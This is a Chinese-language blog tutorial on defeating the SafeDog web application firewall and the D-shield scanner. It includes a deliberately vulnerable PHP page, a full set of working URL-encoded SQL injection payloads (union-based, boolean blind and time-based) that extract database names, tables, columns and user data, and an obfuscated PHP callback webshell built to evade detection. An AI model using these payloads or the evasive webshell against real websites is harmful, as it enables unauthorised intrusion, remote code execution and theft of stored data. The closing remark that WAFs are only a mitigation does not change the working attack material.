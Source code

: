 0x00 前言
最近看了不少关于WAF绕过的文章，想把理论深化到实践当中去，于是就有了您正在看的这篇文章，这篇文章分为两大部分，分别写的是SQL注入相关的WAF绕过和一句话木马免杀相关的WAF绕过，本文用来做测试的WAF是安全狗（4.0最新版），在一句话木马免杀的章节也会提到一些绕过D盾的技巧。

 

0x01 绕过安全狗继续SQL注入
其实说白了，绕过WAF就是混淆你的SQL语句，让它以另一种方式呈现出来，以绕过WAF的黑名单正则表达式匹配，至于具体的混淆方法，网络上有很多的文章已经讲的够详细了，在这里我就直接进入实战环节，不在讲具体方法和原理。

测试环境：WIN10 + Apache +php5.4.45 + mysql5.5.53 + 安全狗4.0版本

测试代码（inject.php）如下：

<?php

$id = $_GET['id'];

$con = mysql_connect("localhost","root","root");

if (!$con){die('Could not connect: ' . mysql_error());}

mysql_select_db("dvwa", $con);

$query = "SELECT first_name,last_name FROM users WHERE user_id = '$id'; ";

$result = mysql_query($query)or die('<pre>'.mysql_error().'</pre>');

while($row = mysql_fetch_array($result))

{

 echo $row['0'] . "&nbsp" . $row['1'];

 echo "<br />";

}

echo "<br/>";

echo $query;

mysql_close($con);

?>
首先是注入点测试：

直接上

 and '1'='1
(https://p5.ssl.qhimg.com/t011cd86a0315a8152d.jpg)

预料之内，果然被拦截，猜测可能是关键字and被过滤，修改and为&&，urlencode后为%26%26
(https://p2.ssl.qhimg.com/t01f4c4d41f2a32f18e.jpg)



成功绕过安全狗。

当然了，只能判断注入点是肯定没有任何任意的，下面我们来尝试用unionselect语句来提取一下数据，直接上union select语句肯定被拦截，我就不再截图了。

这里我们主要用的绕过方法是：

1.利用()代替空格

2.利用mysql特性/*!*/执行语句

3.利用/**/混淆代码

我给出的注入语句是：

1' union/*%00*//*!50010select*/(database/**/()),(user/**/())%23
可以看到，成功注入没有拦截

(https://p3.ssl.qhimg.com/t012ad227fa9626419a.jpg)

这里要注意的几点是：

1.mysql关键字中是不能插入/**/的，即se/**/lect是会报错的，但是函数名和括号之间是可以加上/**/的,像database/**/()这样的代码是可以执行的

2./*!*/中间的代码是可以执行的，其中50010为mysql版本号，只要mysql大于这个版本就会执行里面的代码

3.数据或者函数周围可以无限嵌套()

4.利用好%00

同样的道理，我们可以利用上述方法爆出当前数据库的数据表：

(https://p0.ssl.qhimg.com/t012ad227fa9626419a.jpg)

当然，在真实环境下直接union select数据的注入点是非常少见的，还是盲注占多数，按照上面的思路方法我们可以非常轻松的测试出绕过安全狗的盲注语句，我测试了好长时间，总结出的语句如下：

判断： 1'/**/%26%261%3d2%23

判断列数： 1' order by 2%23


关联查询爆出用户和数据库： 1%27%20union/*%00*//*!50010select*/(database/**/()),(user/**/())%23

关联查询爆出数据表： %27%20union/*%00*//*!50010select*/((group_concat(table_name))),null/**/from/**/((information_schema.TABLES))/**/where/**/TABLE_SCHEMA%3d(database/**/())%23

关联查询爆出字段值： %27%20union/*%00*//*!50010select*/((group_concat(COLUMN_NAME))),null/**/from/**/((information_schema.columns))/**/where/**/TABLE_NAME%3d%27users%27%23

关联查询提取数据： %27%20union/*%00*//*!50010select*/((group_concat(first_name))),null/**/from/**/((users))%23


盲注爆出数据库： 1' and substr(database/**/(),1,1)%3d'1'%23

盲注爆出数据表： 1'/*%00*/and substr((/*!50010select*/((group_concat(table_name)))/**/from/**/((information_schema.TABLES))/**/where/**/TABLE_SCHEMA%3d(database/**/())),1,1)%3d'1'%23

盲注爆出字段值： 1'/*%00*/and substr((/*!50010select*/((group_concat(COLUMN_NAME)))/**/from/**/((information_schema.columns))/**/where/**/TABLE_NAME%3d%27users%27),1,1)%3d'1'%23

盲注提取数据： 1'/*%00*/and substr((/*!50010select*/((group_concat(first_name)))/**/from/**/((users))),1,1)%3d'1'%23


基于时间的盲注爆出数据库： 1'/*%00*/and (select case when (substr(database/**/(),1,1) like 'd') then sleep/**/(3) else 0 end)%23

基于时间的盲注爆出数据表： 1'/*%00*/and (select case when (substr((/*!50010select*/((group_concat(table_name)))/**/from/**/((information_schema.TABLES))/**/where/**/TABLE_SCHEMA%3d(database/**/())),1,1) like 'd') then sleep/**/(3) else 0 end)%23

基于时间的盲注爆出字段值： 1'/*%00*/and (select case when (substr((/*!50010select*/((group_concat(COLUMN_NAME)))/**/from/**/((information_schema.columns))/**/where/**/TABLE_NAME%3d%27users%27),1,1) like 'd') then sleep/**/(3) else 0 end)%23

基于时间的盲注提取数据： 1'/*%00*/and (select case when (substr((/*!50010select*/((group_concat(first_name)))/**/from/**/((users))),1,1) like 'd') then sleep/**/(3) else 0 end)%23
上列的是关联查询注入、盲注、基于时间的盲注从获取数据库名一直到获取表名、字段名、数据值的所有过狗语句。

可以看到安全狗完全被Bypass：

(https://p3.ssl.qhimg.com/t01bcb5997d7e5d928c.jpg)

当然了，绕过的方法还是非常多的，ske师傅提供了另一种奇葩的绕过思路：

Union -> /*!Union/*/**/

Select -> /*!/*!Select*/

Database() -> /*!database/*/**//*!/*!()*/
使用这种方法SQL语句依然可以正确执行，而且会完美过狗！

但是这里比较坑的一点是安全狗3.5版本会拦截关键字information_schema，这样利用起来就比较麻烦了，不过私神还是提供了一种方法绕过：

当mysql版本>=5.6时，可以用如下语句代替：

Select table_name from mysql.innodb_table_stats where database_name = database();
当然了，4.0版本还是非常容易绕过的！

思路总结：

1.构造利用sql语句

2.利用局部分析的方法判断被过滤的是哪些内容

3.分析过滤规则尝试绕过

 

0x02 绕过安全狗和D盾写入WebShell
对于免杀WebShell，给我最大启发的一篇文章还是phithon师傅写的一篇讲“回调后门”的文章，所谓的“回调后门”，其实就是找一个有回调函数参数的函数（似乎有点绕），具体细节在phithon师傅的这篇文章中已经讲的非常清楚了，如果有小白不理解的话，建议仔细阅读此文章链接之后再继续阅读下文。

链接如下：

https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html

这篇文章思路特别好而且总结的很全，唯一的问题就是这篇文章是在三年前写的，文章中提供的WebShell已经能被主流的安全工具完美查杀，因此我们需要对文章中给出的WebShell进行改进。

我随便取了一个回调后门如下：
(https://p5.ssl.qhimg.com/t016c86fbd8fb00a802.jpg)

测试了一下，被安全狗完美拦截：

(https://p5.ssl.qhimg.com/t014cf18b963808db42.jpg)


安全狗很容易绕过，只要把base64_decode()这个解密函数去掉就行了：

(https://p2.ssl.qhimg.com/t01aab10eba269feaa7.jpg)

但是D盾还是完美查杀：

(https://p0.ssl.qhimg.com/t012a1a40343e8af08c.jpg)

尝试创建一个类并利用构造函数赋值来混淆代码：

<?php
class test{
 public $e;
 function __construct()
 {
 $this->e = $_GET['e'];
 }
}
$t = new test();
$s=$_REQUEST['pass'];
$arr=array($s,'test');
uasort($arr,$t->e);

(https://p5.ssl.qhimg.com/t0190d30fa89ccf7c40.jpg)

可以看到安全狗和D盾都已经查杀不出来了

当然了，这只是一种思路，我们还可以利用之前混淆SQL语法的思路来免杀webshell，即在代码中添加()和/**/

做测试的webshell如下：

(https://p2.ssl.qhimg.com/t011772722f9e1307f7.jpg)

混淆之后成功逃过D盾和安全狗的查杀：

(https://p4.ssl.qhimg.com/t010cba056befbf3cbb.jpg)

注意这个代码比之前的多了一个()和一个/**/

最近在先知平台上还看到了一个用反序列化制作免杀WebShell的方法也很精巧，链接如下：

https://xianzhi.aliyun.com/forum/topic/2202

WebShell免杀思路总结：

1.输入点：把$_GET改为$_SERVER，或者用file_get_contents()函数以及include语句作为输入点

2.核心方法：利用有回调函数参数的函数作为代码执行的入口点

3.代码混淆：利用好()和/**/以及各种空白符，利用类的构造函数/析构函数

 

0x03 后记
切记，没有绕不过的WAF，基于正则表达式匹配的WAF都是比较容易绕过的，WAF可以当做一种缓解措施但一定不要将它作为最终的防御手段！
